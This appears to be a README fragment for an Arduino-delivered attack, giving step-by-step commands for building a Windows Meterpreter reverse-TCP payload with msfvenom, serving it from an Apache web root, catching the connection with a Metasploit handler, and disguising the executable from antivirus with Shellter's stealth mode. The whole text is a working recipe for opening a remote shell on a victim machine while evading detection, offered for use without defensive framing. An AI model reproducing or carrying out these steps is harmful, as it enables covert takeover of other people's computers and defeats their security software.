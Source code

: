 ## Instructions To Creating the Payload to be executed by run.ino:
  ### On the host machine (linux): // Note: (change 192.168.0.24 to your ip, and 8080 to the port you desire)
   1.  msfvenom -p windows/meterpreter/reverse_tcp -a x86 –platform windows LHOST=192.168.0.24 LPORT=8080 -f exe > shell.exe   
   2.  cp shell.exe /var/www/html
   3.  *OPTIONAL* go to Avoiding AntiVirus
   4.  service apache2 start
   5.  msfconsole
   6.  use exploit/multi/handler
   7.  set PAYLOAD windows/meterpreter/reverse_tcp
   8.  set LHOST 192.168.0.24
   9.  set LPORT 8080
   10.  exploit
   
   ### Avoiding Anti Virus
    1. sudo apt-get install shellter [ You might be required to install wine32 first (dpkg --add-architecture i386 && apt-get update && apt-get install wine32) ]
    2. shellter
    3. A (to select AUTO)
    4. /var/www/htmlEnter path to your executable
    5. Y (to enter stealth mode)
    6. Enter LHOST and LPORT
    
    
   ### Using Winpayloads (if the above method fails)
    1. https://github.com/nccgroup/Winpayloads/blob/master/README.md
